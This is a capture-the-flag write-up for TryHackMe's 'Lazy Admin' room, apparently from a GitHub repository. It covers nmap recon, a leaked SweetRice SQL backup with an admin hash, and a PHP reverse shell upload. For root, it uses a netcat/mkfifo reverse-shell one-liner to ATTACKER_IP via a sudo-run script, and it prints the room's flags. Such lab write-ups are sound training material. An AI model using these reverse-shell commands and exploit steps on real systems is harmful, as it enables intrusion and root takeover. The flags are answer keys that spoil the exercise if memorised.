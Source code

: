 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Performing some basic `nmap` scans gives us the following information:
```shell-session
$ sudo nmap -sS -vv -oN nmap_scan.txt TARGET_IP
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63


$ sudo nmap -sV -vv -oN nmap_service_scan.txt TARGET_IP
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


$ sudo nmap -sC --top-ports 2000 --script=vuln -vv -oN nmap_vuln_scan.txt TARGET_IP
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|   Hosts that seem down (vulnerable):
|_    224.0.0.251
Nmap scan report for TARGET_IP
Host is up, received echo-reply ttl 63 (0.24s latency).
Scanned at 2023-02-19 16:12:04 IST for 323s
Not shown: 1998 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum: 
|_  /content/: Potentially interesting folder
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-dombased-xss: Couldn't find any DOM based XSS.
```

The machine is quite simple in terms of the services running on it, there's a web server and a ssh service running that we can make use of for gaining access and so on. Requesting the web-page for the server running on port 80 shows the default page for _Apache2 Ubuntu_. As dictated by the `vuln` script scan by `nmap`, there's a `/content/` directory that may hold something for us to use...

![](content_folder.png)

Well, sure enough, that _is_ information that interests us. The web page tells us that the web server makes use of `SweetRice`. A quick search using exploitDB shows several vulnerabilities we can use to exploit SweetRice running on the server. The one I'll be using will be the [Backup Disclosure vulnerability in SweetRice 1.5.1](https://www.exploit-db.com/exploits/40718). Visiting the `/content/inc/mysql_backup/` directory gives us access to the SQL backups, which can be downloaded simply by using something like `wget` or just clicking on them. When we view the contents of the `mysql_backup` folder, there's just one file: `mysql_bakup_20191129023059-1.5.1.sql` which can be dowloaded like so:
```shell-session
$ wget http://TARGET_IP/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
```

Checking the contents of the sql bakcup file provides us the admin username as well as a hashed password to crack:
```txt
ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:

  \\"admin\\";s:7:\\"manager\\";s:
  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ ------------------------------- Username for admin account!
  
  6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ ----- Password for the admin account!
    

  ;s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

Cracking this hash provides us with the password we require:
![](crackstation_pswd.png)


## Gaining Access

After some research and experimentation, we find that the `/as/` page/directory gives us a place to put these credentials to use:
![](login_portal.png)

The credentials to use are: `manager: Password123`. Once logged in, we're taken to a dashboard. We can now make use of one of the exploits we found when searching on ExploitDB. I'll be making use of the [CSRF Vulnerability in SweetRice 1.5.1](https://www.exploit-db.com/exploits/40700). Uploading our reverse shell code as an ad and then requesting the URL: `10.10.42.5/content/inc/ads/payload.php`, we obtain a reverse shell!
```shell-session
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.42.5] 44012
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 19:36:10 up 11 min,  0 users,  load average: 0.04, 0.19, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1057): Inappropriate ioctl for device
bash: no job control in this shell
www-data@THM-Chal:/$ whoami
www-data

www-data@THM-Chal:/$ cd /home
www-data@THM-Chal:/home$ ls
itguy
www-data@THM-Chal:/home$ cd itguy
www-data@THM-Chal:/home/itguy$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt

www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

```

And just like that, we've obtained the user flag!
> What is the user flag?
> 
> Answer: `THM{63e5bce9271952aad1113b6f1ac28a07}`

## Privilege Escalation

Now that we have a foothold, we can now go ahead and work on obtaining the root flag. Now, looking at the rest of the files in `/home/itguy` we find 2 interesting ones:
- `mysql_login.txt`
- `backup.pl`

The contents of these are as follows:
```shell-session
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
rice:randompass

www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Interesting... let's inspect the contents of the `/etc/copy.sh` script.  
```shell-session
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Hmm... it seems like the `/etc/copy.sh` file contains a reverse shell of a sort. Maybe we can leverage that to gain root privileges? Let's try simply replacing the IP `192.168.0.190` with our IP and run a netcat listener at port 5554:

```shell-session
www-data@THM-Chal:/$ cd etc
www-data@THM-Chal:/etc$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 5554 >/tmp/f" > copy.sh

www-data@THM-Chal:/home/itguy$ python -c 'import pty;pty.spawn("/bin/bash")';                             
www-data@THM-Chal:/home/itguy$ cd /
www-data@THM-Chal:/$ sudo perl /home/itguy/backup.pl

# On our netcat listener:
$ nc -nvlp 5554
listening on [any] 5554 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.42.5] 49252
# whoami
root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

We have the root flag!
> What is the root flag?
> 
> Answer: `THM{6637f41d0177b6f37cb20d775124699f}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Lazy Admin](https://tryhackme.com/room/lazyadmin)
